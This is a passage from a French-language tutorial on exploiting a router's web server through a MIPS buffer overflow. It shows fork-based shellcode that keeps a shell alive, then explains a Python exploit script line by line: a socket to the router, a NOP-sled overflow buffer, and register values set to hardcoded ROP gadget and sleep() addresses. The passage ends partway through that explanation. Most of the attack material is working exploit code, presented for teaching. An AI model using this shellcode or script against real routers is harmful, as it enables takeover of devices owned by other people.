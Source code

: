 ***

### <mark style="color:blue;">9. Shellcode Fork()</mark>

**Problème** : Le shell meurt rapidement (processus de monitoring)\
**Solution** : Ajouter un `fork()` au début pour créer un processus enfant

```assembly
li $s1, -1
li $a0, 9999
li $v0, 4166    # syscall nanosleep
syscall 0x40404
li $v0, 4002    # syscall fork
syscall 0x40404
bgtz $v0, loc   # Retour à la boucle si parent
```

### Points Clés à Retenir

1. **MIPS** utilise `$ra` comme adresse de retour (non EIP)
2. **Cache incoherence** nécessite des fonctions bloquantes
3. **ROP** permet de contourner l'ASLR en chaînant des gadgets
4. **Encodage** requis pour éviter les caractères interdits
5. **Fork()** nécessaire pour maintenir le shell actif

***

## <mark style="color:red;">Explication du Script Python d'Exploitation MIPS</mark>

1\. Structure générale et imports

```python
import socket, sys, struct, urlparse, re, os
host = '192.168.1.1'
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
```

**Rôle :** Création d'une socket TCP pour se connecter au serveur web du routeur.

2\. Construction du Buffer Initial

```python
nop = "\x27\x70\xc0\x01"  # Instruction NOP MIPS
buf = "A"                  # Début du buffer
buf += nop * 1279         # Remplissage jusqu'aux registres
```

**Explication :**

* `nop` = instruction "ne rien faire" en MIPS
* `buf` sera envoyé pour déclencher le buffer overflow
* Les 1279 NOP nous amènent exactement aux registres qu'on veut contrôler

3\. Contrôle des Registres MIPS (ROP Gadgets Part 1)

```python
s0 = nop                    # Registre $s0 = NOP
s1 = "\x2b\x2a\x8f\xd0"   # Adresse fonction sleep()
s2 = nop                    # Registre $s2 = NOP  
s3 = "\x2b\x27\x39\x5c"   # Adresse 2ème ROP gadget
s4 = s5 = s6 = s7 = nop    # Autres registres = NOP
ra = "\x2b\x2a\xa1\xc8"   # Adresse 1er ROP gadget
```
